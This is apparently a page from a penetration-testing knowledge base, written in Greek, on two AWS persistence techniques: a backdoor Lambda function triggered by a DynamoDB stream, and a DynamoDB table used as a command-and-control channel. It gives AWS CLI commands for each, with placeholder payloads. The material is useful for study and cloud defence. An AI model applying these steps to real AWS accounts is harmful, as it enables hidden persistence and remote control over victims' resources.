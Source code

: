 # AWS - DynamoDB Persistence

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

Για περισσότερες πληροφορίες, επισκεφθείτε:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### DynamoDB Triggers με Backdoor Lambda

Χρησιμοποιώντας τους triggers του DynamoDB, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **κρυφή backdoor** συνδέοντας μια κακόβουλη λειτουργία Lambda με έναν πίνακα. Η λειτουργία Lambda μπορεί να ενεργοποιηθεί όταν ένα στοιχείο προστεθεί, τροποποιηθεί ή διαγραφεί, επιτρέποντας στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα εντός του λογαριασμού AWS.
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
Για να διατηρήσει την επιμονή, ο επιτιθέμενος μπορεί να δημιουργήσει ή να τροποποιήσει στοιχεία στον πίνακα DynamoDB, γεγονός που θα ενεργοποιήσει τη κακόβουλη λειτουργία Lambda. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί κώδικα εντός του λογαριασμού AWS χωρίς άμεση αλληλεπίδραση με τη λειτουργία Lambda.

### DynamoDB ως Κανάλι C2

Ένας επιτιθέμενος μπορεί να χρησιμοποιήσει έναν πίνακα DynamoDB ως **κανάλι εντολών και ελέγχου (C2)** δημιουργώντας στοιχεία που περιέχουν εντολές και χρησιμοποιώντας παραβιασμένες περιπτώσεις ή λειτουργίες Lambda για να ανακτούν και να εκτελούν αυτές τις εντολές.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Οι παραβιασμένες περιπτώσεις ή οι λειτουργίες Lambda μπορούν περιοδικά να ελέγχουν τον πίνακα C2 για νέες εντολές, να τις εκτελούν και προαιρετικά να αναφέρουν τα αποτελέσματα πίσω στον πίνακα. Αυτό επιτρέπει στον επιτιθέμενο να διατηρεί την επιμονή και τον έλεγχο πάνω στους παραβιασμένους πόρους.

{{#include ../../../banners/hacktricks-training.md}}
